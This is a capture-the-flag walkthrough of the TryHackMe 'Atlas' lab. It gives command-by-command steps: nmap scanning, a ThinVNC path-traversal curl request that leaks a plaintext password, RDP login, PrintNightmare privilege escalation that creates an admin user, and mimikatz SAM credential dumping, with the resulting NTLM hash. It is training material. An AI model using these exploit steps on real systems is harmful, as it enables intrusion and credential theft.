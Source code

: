 # Atlas


Type: Guided
Room Link: https://tryhackme.com/room/atlas

## Enumeration

IP: 10.10.208.37

Nmap

```
nmap -p- -v 10.10.208.37 -Pn

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
7680/tcp open  pando-pub
8080/tcp open  http-proxy
```

## Port 8080

ThinVNC

```
searchsploit thinvnc
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
ThinVNC 1.0b1 - Authentication Bypass                                            | windows/remote/47519.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

https://redteamzone.com/ThinVNC/

```
curl 'http://10.10.208.37:8080/../../../../../ThinVnc.ini' --proxy 127.0.0.1:8080
curl 'http://10.10.208.37:8080/asd/../../ThinVnc.ini' --path-as-is

[Authentication]
Unicode=0
User=Atlas
Password=H0ldUpTheHe@vens
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```

![image](https://user-images.githubusercontent.com/5285547/135341220-4180571f-aea9-4961-81cc-86dfb7caa1de.png)

Now we can login to the service 

![image](https://user-images.githubusercontent.com/5285547/135341483-7dc5da86-1647-4933-9c89-f679a1e70314.png)

```
Atlas:H0ldUpTheHe@vens
```

Connect to localhost pc

![image](https://user-images.githubusercontent.com/5285547/135341603-c419269b-8608-4188-8e47-4bc4e146512b.png)

![image](https://user-images.githubusercontent.com/5285547/135341615-ba41ba22-4a67-44e5-8cf3-216c47055b21.png)

## VNC

![image](https://user-images.githubusercontent.com/5285547/135342142-9b21efaf-eabd-4292-975b-2b5839cda61c.png)

```
xfreerdp /v:10.10.208.37 /u:Atlas /p:H0ldUpTheHe@vens /cert:ignore +clipboard /dynamic-resolution /drive:/tmp,share
```


## PrintNightmare by John Hammond and Caleb Stewart

https://github.com/calebstewart/CVE-2021-1675/blob/main/CVE-2021-1675.ps1


```
Import-Module .\Nightmare.ps1
Invoke-Nightmare -NewUser "ac1d" -NewPassword "ac1d" -DriverName "PrintMe"

[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user ac1d as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
```

```
runas /user:ac1d powershell.exe
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential ac1d
```

## Mimikatz

Latest release

```
https://github.com/gentilkiwi/mimikatz/releases
```

cp to /tmp then run the mimikatz.exe

```
\\tsclient\share\mimikatz.exe

privilege::debug
token::elevate
```

![image](https://user-images.githubusercontent.com/5285547/135345106-0909339f-102a-4787-a4f8-63945e6d023b.png)

Dump the creds

```
lsadump::sam
```

Admin NTLM password hash

```
c16444961f67af7eea7e420b65c8c3eb
```
